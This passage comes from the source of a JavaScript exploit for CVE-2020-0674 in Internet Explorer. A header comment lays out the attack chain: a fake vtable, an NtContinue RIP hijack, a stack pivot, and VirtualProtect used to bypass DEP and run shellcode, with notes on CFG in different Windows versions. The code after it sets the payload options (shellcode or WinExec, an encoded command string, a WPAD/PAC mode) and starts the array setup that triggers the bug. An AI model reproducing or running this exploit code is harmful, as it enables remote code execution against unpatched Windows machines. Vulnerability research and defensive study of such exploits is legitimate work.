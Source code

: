     The logic flow is:
    1. A fake object with a fake vtable is constructed containing the address
       of NTDLL.DLL!NtContinue as its "typeof" method pointer. This primitive
       is used for RIP hijack in conjunction with a pointer to a specially
       crafted CONTEXT structure in RCX as its parameter.
    2. NtContinue changes RIP to a stack pivot gadget and sets up the parameters
       to KERNEL32.DLL!VirtualProtect.
    3. The address of VirtualProtect is the first return address to be
       consumed on the new (artificial) stack after the stack pivot.
    4. VirtualProtect disables DEP on the shellcode region and returns to that
       same (now +RWX) shellcode address stored as the second return address on
       the pivoted stack.

    Notably, the stack pivot was needed here due to the presence of CFG on
    Windows 8.1, which prevents NtContinue from being used to change RSP to an
    address which falls outside the stack start/end addresses specified in the
    TEB. On Windows 7 this is a non-issue. Furthermore, it required a leak of RSP
    to be planted in the CONTEXT structure so that NtContinue would consider its
    new RSP valid.

    The exploit will not work on Windows 10 due to enhanced protection by CFG:
    Windows 10 has blacklisted NTDLL.DLL!NtContinue to CFG by default.

    ~

    Credits

    maxpl0it      - for doing the original analysis and PoC for CVE-2020-0674
                    on IE8/11 on Windows 7 x64.

    HackSys Team  - for tips on the WPAD service and low level JS debugging.

    */

    ////////
    ////////
    // Global settings
    ////////

    var PayloadType = "shellcode"; // Can be "shellcode" or "winexec"
    var CommandStr = "\u3a63\u775c\u6e69\u6f64\u7377\u6e5c\u746f\u7065\u6461\u652e\u6578"; // The ASCII string to be executed via WinExec if the relevant payload type is selected - C:\Windows\notepad.exe
    var WindowsVersion = 8.1; // Can be 8.1 or 7. Only the 64-bit versions of these OS are supported.
    var PacFile = false;
    var EnableDebug = false;
    var EnableTimers = false;
    var AlertOutput = false;

    ////////
    ////////
    // Stack-sensitive array initialization logic
    ////////

    var SortArray = new Array(); // Initializing this locally rather than globally causes stack issues, particularly in regards to WPAD.
    for(var i = 0; i <= 150; i++) SortArray[i] = [0, 0]; // An array of arrays to be sorted by glitched sort comparator
